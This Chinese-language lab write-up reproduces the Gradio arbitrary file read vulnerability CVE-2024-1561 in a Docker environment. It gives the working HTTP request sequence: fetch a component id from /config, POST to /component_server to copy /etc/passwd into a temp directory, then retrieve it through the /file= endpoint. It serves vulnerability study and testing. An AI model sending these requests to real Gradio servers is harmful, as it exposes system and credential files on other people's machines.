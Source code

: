 # Gradio 任意文件读取漏洞 (CVE-2024-1561)

Gradio是一个Python库，允许用户无需编写前端代码即可为机器学习模型快速构建可视化Web界面。

Gradio 4.13 版本以下 `component_server` 接口允许攻击者调用 `Component` 类的任意方法，如通过 `move_resource_to_block_cache` 方法将系统中的任意文件复制到临时目录，并检索查看内容。

参考链接：

+ https://github.com/gradio-app/gradio/pull/6884
+ https://nvd.nist.gov/vuln/detail/CVE-2024-1561

## 环境启动

执行如下命令启动一个由Gradio 4.12.0编写的应用：

```
docker compose up -d
```

环境启动后，默认未开启身份验证。你可以通过`http://your-ip:7860`访问该应用。

## 漏洞复现

访问 `config` 接口，获取一个components的id字段，例如这里的`3`。

```
GET /config HTTP/1.1
Host: 127.0.0.1:7860
```

![image-20250427101524307](1.png)

通过 `move_resource_to_block_cache` 方法，将 `/etc/passwd` 文件写入到临时目录中，Gradio将返回临时文件的路径。

```
POST /component_server HTTP/1.1
Host: 127.0.0.1:7860
Content-Type: application/json

{
  "component_id": "3",
  "data": "/etc/passwd",
  "fn_name": "move_resource_to_block_cache",
  "session_hash": "aaaaaaaaaaa"
}

```

![image-20250427101900374](2.png)

通过 `file` 接口并拼接临时文件路径，即可读取文件内容。

```
GET /file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd HTTP/1.1
Host: 127.0.0.1:7860
```

![image-20250427101951481](3.png)
